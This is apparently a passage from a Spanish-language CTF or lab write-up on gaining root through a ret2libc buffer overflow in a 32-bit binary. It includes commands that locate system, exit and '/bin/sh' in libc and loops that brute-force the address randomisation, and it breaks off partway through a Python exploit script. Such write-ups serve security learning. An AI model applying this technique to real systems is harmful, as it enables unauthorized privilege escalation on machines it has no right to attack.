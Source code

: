 
    ```bash
    strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
    
    #Output
    15ba0b /bin/sh
    ```

En este caso las direcciones serian 
- system = 0xb771f000 + 0003ada0
- exit = 0xb771f000 + 0002e9d0
- /bin/sh = 0xb771f000 + 15ba0b

Pero como la direccion cambia la tenemos que calcular o conocer antes. La suerte aqui es que como estamos en 32b, las
direcciones no cambian demasiado y esto se puede comprobar con bucles.

1. Verificamos con un bucle de 10 turnos las direcciones cambiantes

    ```bash
    for i in $(seq 1 10); do ldd rop | grep libc | awk 'NF {print $NF}' | tr -d '()'; done
    ```

1. Copiamos una de ellas (0xb7568000) y miramos si aparece multiples veces en un bucle de 1000 turnos

    ```bash
    for i in $(seq 1 1000); do ldd rop | grep libc | awk 'NF {print $NF}' | tr -d '()'; done | grep "0xb7568000"
    ```

Constatamos que aparece multiples vecez. Esto quiere decir que podriamos lanzar el binario o mejor dicho el exploit multiples vecez hasta que 
esta direccion salga.


#### Creando el exploit en python {-}

```bash
cd /tmp
mkdir privesc
cd $!
touch exploit.py
vi exploit.py
```

El exploit seria:

```python
#!/usr/bin/python

from struct import pack
from subprocess import call
import sys

offset = 52
junk = "A"*offset

#ret2libc -> system_addr + exit_addr + bin_sh_addr

base_libc = 0xb7568000

#141: 0002e9d0 31 FUNC GLOBAL DEFAULT 13 exit@@GLIBC_2.0
#1457: 0003ada0 31 FUNC WEAK   DEFAULT 13 system@@GLIBC_2.0
#15ba0b /bin/sh

system_addr_offset = 0x0003ada0
exit_addr_offset = 0x0002e9d0
bin_sh_addr_offset = 0x0015ba0b

```